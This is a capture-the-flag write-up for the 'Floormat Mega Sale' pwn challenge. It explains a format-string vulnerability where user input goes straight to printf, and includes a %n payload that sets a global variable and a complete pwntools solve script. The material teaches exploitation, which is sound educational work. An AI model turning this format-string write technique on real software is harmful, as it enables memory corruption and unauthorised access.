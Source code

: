 ```yaml
---
tags: ["format-string"]
download-link: ""
---
```


# 1337 Up | Floormat Mega Sale - PWN (100)

This challenge involves exploiting a format string vulnerability to write data to a variable to bypass a null check.

## Initial Analysis

### Checksec
First thing is to look at basic memory protections

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Key things to note:
- No PIE, so the binary is loaded at the same place every time

### Binary Review

Working backwards, we can search for the string `flag` and see that it is inside of the `employee_access()` function.
The flag will be printed if the global variable `employee` is not `NULL`.

``` c
void employee_access(void) {
  if (employee == 0) {
    puts("\nAccess Denied: You are not an employee!");
  }
  ...
  printflag
}
```

This function can be called from `main()`, and requires the user to pick the 6th option.

```c
if (choice == 6) {
    employee_access();
}
```

Digger deeper into main we spot the format string vulnerability, when entering our address, it passes that data directly to `printf`, which can be exploited.
``` c
puts("\nPlease enter your shipping address:");
fgets(shipping_address,0x100,stdin);
puts("\nYour floor mat will be shipped to:\n");
printf(shipping_address);
```

Summarizing the findings:
- there is a format string vulnerability when passing a shipping address
- if the global variable `employee` is not `NULL` it will print the flag

## Exploitation
Exploiting the format string vulnerability is pretty simple since we just need to write an arbitrary byte to a specific location.
This can be done using the `%n` format specifier which will write the amount of bytes printed to a pointer.

The first thing to do is figure out where we are on the stack, and what location our employee variable location is.

How to reference variables:

|Index|Calling Stack|Format String|
|--|--|--|
| 0 | RDI | `%0$p` |
| 1 | RSI | `%1$p` |
| 2 | RDX | `%2$p` |
| 3 | RCX | `%3$p` |
| 4 | R8 | `%4$p` |
| 5 | R9 | `%5$p` |
| 6 | RSP + 0x0 | `%6$p` |
| 7 | RSP + 0x8 | `%7$p` |
| 8 | RSP + 0x10 | `%8$p` |
| 9 | RSP + 0x18 | `%9$p` |
| 10 | RSP + 0x20 | `%10$p` |
| 11 | RSP + 0x28 | `%11$p` |

Since the `shipping_address` variable is located at `RSP + 0x20`, then to access this variable, you would use `%10$p`. However since the first 8 bytes are part of the format string, and not the pointer to the global variable `employee`, we will need to use `%11$p`.

``` python
payload = b'%c%11$n'.ljust(8, b'\x00')
payload += p64(0x0040408c)
```

Breaking right after `printf` is called, we see that the employee variable got set to 1.

``` bash
pwndbg> break *0x004013f2
pwndbg> c
pwndbg> x/gx 0x0040408c
0x40408c <employee>:	0x0000000000000001
```

This should give us the flag!

## Solve
``` python
from pwn import *

BINARY = './floormat_sale'
HOST = ''
GDB_SCRIPT = ''

def main():
    proc = get_process() # set is_remote = False for local testing
    
    employee_address = 0x0040408c
    payload = b''.join([
      b'%c%11$n'.ljust(8, b'\x00'),
      p64(employee_address),
    ])
    
    proc.sendlineafter(b'Enter your choice:', b'6')
    proc.sendlineafter(b'Please enter your shipping address:', payload)
    proc.recvuntil(b'Exclusive Employee-only Mat will be delivered to: ')
    flag = proc.recvline().strip().decode()
    print(f'Flag: {flag}')

# Allows compatibility if custom library isn't present
try:
    from ctfkit.bp import *
    tpwn.GDB_SCRIPT = GDB_SCRIPT
except ImportError:
    def get_process(is_remote=True):
        host, port = HOST.split(':')
        return remote(host, int(port)) if is_remote else process()

if __name__ == '__main__':
    try:
        context.binary = BINARY
    except FileNotFoundError:
        print('Not able to load binary, local testing disabled')
    context.log_level = 'error'
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

    parse_args()
    main()
```
